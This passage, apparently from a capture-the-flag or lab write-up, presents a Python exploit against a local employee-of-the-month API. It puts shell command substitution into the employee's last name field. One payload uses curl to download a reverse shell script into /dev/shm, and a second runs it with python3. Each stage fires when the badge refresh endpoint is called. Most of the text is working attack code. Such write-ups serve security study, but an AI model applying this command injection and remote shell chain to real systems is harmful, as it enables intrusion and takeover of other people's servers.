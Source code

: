 It would not stop a payload like this.
```python
$(command)

payloadStageOne = "$(curl http://localhost:8000/reverse_shell.py -o /dev/shm/shell.py)"
payloadStageTwo = "$(python3 /dev/shm/shell.py)"
```

Let's poison the last name of our employee of the month, refresh the badge, and inject the command.

## Exploitation

```python
import httpx

def exploit():
  client = httpx.Client()
  base_url = "http://localhost:3000"
  
  def json(payload):
    return {
      "firstname": "Patrick",
      "lastname": f"Payloadson {payload}",
      "description": "Hello, I am Patrick Richardson! I've set up this API to display employees of the month!",
      "achievement": {
        "reason":"Setting up employee of the month API",
        "date":"2023-10-4 11:03:04"
      },
    }
  
  payloadStageOne = "$(curl http://localhost:8000/reverse_shell.py -o /dev/shm/shell.py)"
  payloadStageTwo = "$(python3 /dev/shm/shell.py)"
  
  res = client.put(
    base_url + "/employee-of-the-month",
    headers={"cache-control": "no-cache"},
    json=json(payloadStageOne)
  )
  
  res = client.get(base_url + "/employee-of-the-month/badge/refresh", headers={"cache-control": "no-cache"})
  
  print(res, len(res.text))
  res = client.put(
    base_url + "/employee-of-the-month",
    headers={"cache-control": "no-cache"},
    json=json(payloadStageTwo)
  )

  res = client.get(base_url + "/employee-of-the-month/badge/refresh", headers={"cache-control": "no-cache"})
  print(res, len(res.text))

exploit()
```
